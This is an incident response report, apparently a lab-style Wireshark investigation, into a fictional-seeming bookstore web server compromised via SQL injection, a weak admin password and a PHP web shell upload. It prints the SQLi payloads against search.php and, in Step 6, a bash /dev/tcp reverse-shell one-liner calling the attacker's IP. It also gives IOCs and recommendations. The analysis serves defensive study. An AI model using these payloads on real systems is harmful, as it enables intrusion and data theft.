









# Incident Response Report: BookWorld Web Server Compromise

## 1. Incident Overview

On the night of the incident, an automated alert was triggered at BookWorld (an online bookstore) due to an unusual spike in database queries and server resource usage. A network forensics investigation was launched using packet capture analysis (Wireshark) to determine the attack vector, scope of compromise, and whether the attacker achieved persistent access to the internal environment. The investigation confirmed that the web server was compromised via a SQL Injection vulnerability, which was subsequently leveraged to obtain administrative credentials and upload a malicious PHP web shell, granting the attacker remote code execution capability on the server.

## 2. Executive Summary

An external threat actor originating from Shijiazhuang, China (IP: `111.224.250.131`) targeted BookWorld's public-facing web application. The attacker identified and exploited a SQL Injection vulnerability in the site's search functionality (`search.php`), which was used to enumerate the backend database schema and extract data from a `customers` table containing user information. The attacker then discovered a hidden administrative directory (`/admin/`) and successfully authenticated using weak/guessed credentials (`admin:admin123!`). Following authentication, the attacker abused file upload functionality within the admin panel to deploy a malicious PHP file (`NVri2vhp.php`) containing a bash reverse-shell payload that calls back to the attacker's own IP on port 443, establishing a foothold for potential remote command execution and further post-exploitation activity.

This incident demonstrates a complete attack chain, from initial reconnaissance through exploitation, credential compromise, and persistence, and highlights critical gaps in input validation, credential policy, and file upload restrictions.

## 3. Attack Timeline & Scope

| Stage | Action | Detail |
| --- | --- | --- |
| 1 | Reconnaissance / Initial Probe | Attacker sends first SQLi test payload to `search.php` |
| 2 | Vulnerability Confirmation | Boolean-based test: `/search.php?search=book and 1=1; -- -` |
| 3 | Database Enumeration | UNION-based SQLi against `INFORMATION_SCHEMA.SCHEMATA` to list all databases |
| 4 | Data Access | Identification of `customers` table holding user/customer data |
| 5 | Directory Discovery | Attacker locates hidden `/admin/` directory |
| 6 | Credential Attack / Login | POST to `/admin/login.php` using `admin:admin123!` → HTTP 302 redirect to `/admin/index.php` (successful login) |
| 7 | Persistence / Execution | Malicious PHP file `NVri2vhp.php` uploaded via admin file upload functionality; payload is a bash reverse shell targeting `111.224.250.131:443` |

**Scope:** Single public-facing web server compromised; customer data table exposed to enumeration; administrative panel access achieved; PHP reverse-shell payload planted for potential follow-on access. Whether the payload was executed and the callback to `111.224.250.131:443` succeeded was not established from the evidence reviewed in this report (see Recommendations for the suggested follow-up).

## 4. Technical Analysis & Findings

### Attacker Infrastructure

- **Attacker IP:** `111.224.250.131`
- **Geolocation:** Shijiazhuang, China

The Wireshark Endpoints view shows the attacker's IP exchanging almost all of the capture's traffic with the web server.



An IP lookup places the address in Shijiazhuang, Hebei, China (ChinaNet Hebei Province Network).



### Vulnerability Exploited

- **Vulnerable script:** `search.php`
- **Vulnerability class:** SQL Injection (Union-based)

### Exploitation Steps Observed

#### Step 1: Initial SQLi probe

A boolean-based test for injectability:

```
/search.php?search=book and 1=1; -- -
```

Filtering the capture on `http contains ".php"` shows the attacker moving from normal browsing to injection attempts against `search.php`. The highlighted request is the `1=1` test.



#### Step 2: Database enumeration

UNION-based extraction of schema names via `INFORMATION_SCHEMA.SCHEMATA`:

```
/search.php?search=book' UNION ALL SELECT NULL,CONCAT(0x7178766271,JSON_ARRAYAGG(CONCAT_WS(0x7a76676a636b,schema_name)),0x7176706a71) FROM INFORMATION_SCHEMA.SCHEMATA-- -
```

The attacker then ran a second UNION query against `INFORMATION_SCHEMA.TABLES`, filtered by schema name, to list the tables inside the databases found. Filtering on `INFORMATION_SCHEMA` isolates these enumeration requests.



Following the HTTP stream on the `INFORMATION_SCHEMA.TABLES` request shows the server's response, listing the tables `admin`, `books` and `customers`, with `customers` highlighted.



The request headers in the same stream show the User-Agent `sqlmap/1.8.3#stable`, indicating the injection was automated with sqlmap rather than typed by hand.

#### Step 3: Sensitive table identified

- Table `customers` (contains website user data), visible in the response above.

#### Step 4: Hidden admin directory discovered

The hidden directory `/admin/` was discovered through further enumeration/brute-forcing. Filtering on `http.request.method == POST` shows repeated POST requests to `/admin/login.php`, followed by a POST to `/admin/index.php`.



#### Step 5: Authentication to the admin panel

The attacker authenticated with `admin:admin123!`, a weak and easily guessable password. An HTTP 302 response confirms a valid login.



#### Step 6: Malicious file upload

The attacker abused the admin panel's upload functionality with a multipart POST to `/admin/index.php`.



The uploaded file, `NVri2vhp.php`, contains a bash reverse-shell one-liner that connects back to the attacker (`111.224.250.131`) on port 443:

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"111.224.250.131"/443 0>&1'");?>
```

If executed, this gives the attacker an interactive shell on the server. Port 443 is commonly allowed outbound, which makes this kind of callback easy to overlook.



### Root Causes

- Lack of input sanitization/parameterized queries on the `search.php` endpoint
- Weak administrative password policy (`admin123!` is a low-complexity, guessable credential)
- Insufficient access control/obscurity on the `/admin/` directory
- No file type/content validation on the admin panel's upload functionality, allowing a `.php` file to be stored and executed

## 5. Indicators of Compromise (IOCs)

| Type | Indicator |
| --- | --- |
| Attacker IP | `111.224.250.131` |
| Attacker Geolocation | Shijiazhuang, China |
| Vulnerable Endpoint | `/search.php` |
| Malicious Directory Accessed | `/admin/` |
| Compromised Credentials | `admin:admin123!` |
| Malicious File Uploaded | `NVri2vhp.php` |
| Reverse Shell Callback (from payload) | `111.224.250.131:443` |
| Attacker Tooling (User-Agent) | `sqlmap/1.8.3#stable` |
| Affected Database Table | `customers` |

## 6. MITRE ATT&CK Mapping

| Tactic | Technique | ID | Evidence |
| --- | --- | --- | --- |
| Initial Access | Exploit Public-Facing Application | T1190 | SQL injection via `search.php` |
| Credential Access | Brute Force: Password Guessing | T1110.001 | Login to `/admin/login.php` using weak credential `admin:admin123!` |
| Credential Access / Collection | Data from Information Repositories | T1213 | Enumeration of `INFORMATION_SCHEMA` and `customers` table via SQLi |
| Persistence | Server Software Component: Web Shell | T1505.003 | Upload of `NVri2vhp.php` to server |
| Execution | Command and Scripting Interpreter | T1059 | PHP file provides remote code execution capability |
| Execution | Command and Scripting Interpreter: Unix Shell | T1059.004 | Bash reverse-shell one-liner inside `NVri2vhp.php` |

## 7. Recommendations

- **Input validation:** Implement parameterized queries/prepared statements on all database-facing endpoints, especially `search.php`, to eliminate SQL injection risk.
- **Credential policy:** Enforce strong password complexity and MFA for all administrative accounts; immediately rotate the compromised admin credential.
- **Directory/access control:** Restrict access to `/admin/` via IP allow-listing, VPN-only access, or additional authentication layers; avoid relying on obscurity.
- **File upload restrictions:** Enforce strict file type validation (allow-list, not block-list), disable script execution in upload directories, and scan uploaded files for malicious content.
- **Web Application Firewall (WAF):** Deploy a WAF to detect and block SQL injection patterns and known web shell upload signatures.
- **Monitoring & Alerting:** Create SIEM detection rules for anomalous query patterns (e.g., `UNION SELECT`, `INFORMATION_SCHEMA`), repeated failed admin logins, and PHP file uploads to non-standard paths. A `sqlmap` User-Agent is a useful early signal but is trivially spoofed, so detections should also key on the injection patterns themselves.
- **Incident containment:** Remove the identified malicious file (`NVri2vhp.php`), rotate all admin credentials, and review server logs for any additional unauthorized files or persistence mechanisms.
- **Egress filtering & callback hunting:** Restrict outbound connections from the web server to only what it needs, block `111.224.250.131` at the perimeter, and search the capture and firewall logs for any connection to `111.224.250.131:443` to determine whether the reverse shell executed.

## 8. Appendix

**Evidence Analysed:** `WebInvestigation.pcap`

**Tools Used:** Wireshark

**Key Wireshark Filters Used:**

- `frame contains "search.php"`: isolate SQLi attempts against the vulnerable endpoint
- `http.request.method == POST`: identify login attempts and file upload requests
- `mime_multipart.header.content-type == "application/x-php"`: isolate the malicious PHP file upload

**Suggested follow-up filter (to confirm whether the reverse shell connected):**

- `ip.addr == 111.224.250.131 && tcp.port == 443`
